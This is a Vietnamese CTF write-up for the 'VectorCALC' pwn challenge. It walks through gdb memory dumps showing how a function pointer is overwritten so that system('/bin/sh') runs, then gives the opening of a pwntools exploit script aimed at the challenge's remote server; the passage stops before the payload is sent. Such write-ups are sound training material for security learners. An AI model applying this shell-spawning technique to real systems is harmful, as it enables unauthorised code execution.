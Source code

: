 ```c
0x558c6065298c <main+173>    call   rdx                           <w1n>
        rdi: 0x558c60655030 (stdin@GLIBC_2.2.5) —▸ 0x7fdff7ff6aa0 (_IO_2_1_stdin_) ◂— 0xfbad208b
        rsi: 0x3
        rdx: 0x558c606529d2 (w1n) ◂— endbr64 
        rcx: 0x0
```

Lúc này chúng ta cần điều khiển thanh ghi `rdi` trỏ đến chuỗi `/bin/sh\0` là được. Lúc gọi con trỏ hàm `((struct Vector *)sum)->printFunc(sum)` tham số của chúng ta là biến `sum`. 


Mà `sum` lúc này đang trỏ đến `v_list-16`, do đó `rdi` chính xác đang trỏ đến `0x558c60655030 (stdin@GLIBC_2.2.5)` như trên hình

Điều chúng ta muốn bây giờ chính là `rdi->/bin/sh ` , `rdx-> w1n`

-> Khá là dễ dàng vì ta chỉ cần ghi vào 2 chunk trên v_list , chỉ số y của chunk này sẽ là `/bin/sh`, chỉ số x của chunk kế tiếp sẽ là địa chỉ hàm `w1n` (cách chính xác 16 bytes), ta sửa sum thành địa chỉ `/bin/sh` là sẽ có được shell

Mọi chuyện đã rõ ràng, ta bắt đầu thực hành:

Mình chỉnh sửa offset hàm w1n ngay chỗ thực hiện `call system` để tránh thanh ghi `rdi` được set cho giá trị rác

```c
00:0000│         0x563e7ff31040 (v_list) ◂— 0x68732f6e69622f /* '/bin/sh' */
01:0008│ rax rdi 0x563e7ff31048 (v_list+8) ◂— 0x68732f6e69622f /* '/bin/sh' */
02:0010│         0x563e7ff31050 (v_list+16) —▸ 0x563e7ff2e35d (printData) ◂— endbr64 
03:0018│         0x563e7ff31058 (v_list+24) —▸ 0x563e7ff2e9e4 (w1n+18) ◂— call 0x563e7ff2e100
04:0020│         0x563e7ff31060 (v_list+32) —▸ 0x563e7ff2e9e4 (w1n+18) ◂— call 0x563e7ff2e100
05:0028│         0x563e7ff31068 (v_list+40) —▸ 0x563e7ff2e35d (printData) ◂— endbr64 
06:0030│         0x563e7ff31070 (v_list+48) ◂— 0x4
07:0038│         0x563e7ff31078 (v_list+56) ◂— 0x4
08:0040│         0x563e7ff31080 (v_list+64) —▸ 0x563e7ff2e35d (printData) ◂— endbr64 
09:0048│         0x563e7ff31088 (sum) —▸ 0x563e7ff31048 (v_list+8) ◂— 0x68732f6e69622f /* '/bin/sh'
```

Vậy `sum -> v_list+8`, khi gọi con trỏ hàm thì `v_list+24->w1n` sẽ được gọi, với `sum` đang chứa địa chỉ chuỗi `/bin/sh`

-> Nhưng không thành công có được shell vì bị stack alignment cả local và remote

-> Mình thử thay thế bằng `system.plt` thì không dính stack aligment và thành công chiếm được shell

Sau đây là script exploit của mình
Vector Exploit:
[xpl.py](https://github.com/w1n-gl0ry/CTF/blob/main/2023/miniCTF/pwn/VectorCALC/src/chall.c)

```python
from pwn import *

#context.log_level='debug'
#io=process('./chall_revenge')
io=remote('45.122.249.68', 20018)
elf=context.binary=ELF('./chall_revenge')

#gdb.attach(io)

def enter(idx, x, y):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'Index: ', idx)
    io.sendlineafter(b'Enter x: ', x)
    io.sendlineafter(b'Enter y: ', y)
    
def sumVector(idx):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'Save the sum to index: ', idx)
    
```